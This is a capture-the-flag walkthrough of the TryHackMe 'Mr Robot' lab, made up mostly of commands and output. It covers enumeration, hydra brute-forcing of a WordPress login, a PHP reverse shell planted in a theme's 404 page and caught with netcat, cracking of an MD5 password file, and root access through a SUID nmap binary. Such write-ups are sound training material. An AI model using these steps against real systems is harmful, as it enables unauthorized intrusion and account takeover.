






# TryHackMe Mr Robot

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

## VM Details

|**Name**|[Mr Robot](https://tryhackme.com/room/mrrobot)|
|---|---|
|**Date release**|864 days old (9/4/2021)|
|**Credit to**|[Leon Johnson](https://twitter.com/sho_luv)|
|**Created by**|[ben](https://tryhackme.com/p/ben)|

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.38.89
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 22,80,443

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.38.89 -p22,80,443
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-09 13:42 +07
Nmap scan report for 10.10.38.89
Host is up (0.23s latency).

PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.96 seconds
```

### Apache services 80,443

At home page port 80 and 433, I saw the same page with html and javascript.



Using `gonuster` to list of hidden in the web application

```
[+] Files and directories
gobuster dir -k -u http://10.10.38.89:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
<snip>
/login                (Status: 302) [Size: 0] [--> http://10.10.38.89:80/wp-login.php]
<snip>
/wp-content           (Status: 301) [Size: 238] [--> http://10.10.38.89/wp-content/]  
<snip>
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.38.89:80/wp-admin/]
```

I saw the web application using wordpress, let's go to `wp-amdin` page and enum more. I try to login with some default credential, but it's all fail. But I got the server response `Invalid username` this will confirm when I input the correct username or not.



Using `wpscan` to enum vulnerable, theme and plugin in the server.

```
┌──(Hades㉿10.11.32.198)-[2.7:31.3]~
└─$ wpscan --url http://10.10.38.89 --enumerate vpt
<snip>
[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://10.10.38.89/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%
<snip>
```

When I checking file `robots.txt` I saw file `fsocity.dic`.

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/tryhackme/mrrobot)

```
┌──(Hades㉿10.11.32.198)-[2.7:33.3]~
└─$ curl http://10.10.38.89/robots.txt                                                                         
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Go to file `fsocity.dic`, It seem like a directory, may I can use it to brute force wp-admin password.

```
┌──(Hades㉿10.11.32.198)-[2.8:34.4]~
└─$ curl http://10.10.38.89/fsocity.dic
true
false
wikia
from
the
now
Wikia
extensions
<snip>
```

## Foothold

### Brute force WP-Admin

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/tryhackme/mrrobot)

At Inspect Element of Fire Fox, I can get the Request Payload for hydra to brute force.

`log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.38.89%2Fwp-admin%2F&testcookie=1`



First, based on server's response, I brute force wp-admin's username with hydra and `fsocity.dic` directory. The username is `Elliot`.

```
┌──(Hades㉿10.11.32.198)-[3.5:35.2]~/walkthrough/tryhackme/mrrobot
└─$ hydra -L fsocity.dic -p admin 10.10.38.89 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.38.89%2Fwp-admin%2F&testcookie=1:Invalid username' -I -t 64
<snip>
[DATA] attacking http-post-form://10.10.38.89:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.38.89%2Fwp-admin%2F&testcookie=1:Invalid username
[80][http-post-form] host: 10.10.38.89   login: Elliot   password: admin
<snip>
```

Second, with username `Elliot` I brute force password with the same method. The password is `ER28-0652`.

```
┌──(Hades㉿10.11.32.198)-[3.7:33.2]~/walkthrough/tryhackme/mrrobot
└─$ hydra -l Elliot -P fsocity.dic 10.10.38.89 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.38.89%2Fwp-admin%2F&testcookie=1:The password you entered for the username' -I -t 64 
<snip>
[80][http-post-form] host: 10.10.38.89   login: Elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
<snip>
```

Login to `wp-admin` successfully using knowed credential.



### PHP ReverseShell

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/tryhackme/mrrobot)

At page 404 Template file `404.php`, I change the code in file to php reverse shell code.

`http://10.10.38.89/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen`



Go to some directory not exist in wp application to load page `404.php`.

```
┌──(Hades㉿10.11.32.198)-[3.7:31.9]~/walkthrough/tryhackme/mrrobot
└─$ curl http://10.10.38.89/shell                                                                                                                                     
```

At the listener, I got reverse shell

```
┌──(Hades㉿10.11.32.198)-[3.7:31.2]~/walkthrough/tryhackme/mrrobot
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.38.89] 59188
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 08:01:35 up  1:23,  0 users,  load average: 0.00, 0.14, 0.35
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

## Privilege Escalation

### MD5 Hash Cracking

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/tryhackme/mrrobot)

At folder home, I saw that the user in the system is `robot`, in the home folder, there is file `password.raw-md5`.

```
daemon@linux:/$ ls /home
robot
daemon@linux:/$ ls /home/robot/
key-2-of-3.txt  password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

File `password.raw-md5` is the md5 hash password for user `robot`. Let's crack it.

At `https://md5.gromweb.com/?md5=c3fcd3d76192e4007dfb496cca67e13b` reversed the hash to string `abcdefghijklmnopqrstuvwxyz`.



Using knowed password, I successfully login to robot account.

```
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
```

### Binaries That AutoElevate

After local enum, I find `nmap` have suid can run as the owner and the owner is `root`.

```
robot@linux:/tmp$ find / -perm -u=s -type f 2>/dev/null
<snip>
/usr/local/bin/nmap
<snip>
```

Run nmap in `interactive mode` and get the root shell.

```
robot@linux:/tmp$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !/bin/sh
# whoami
root
```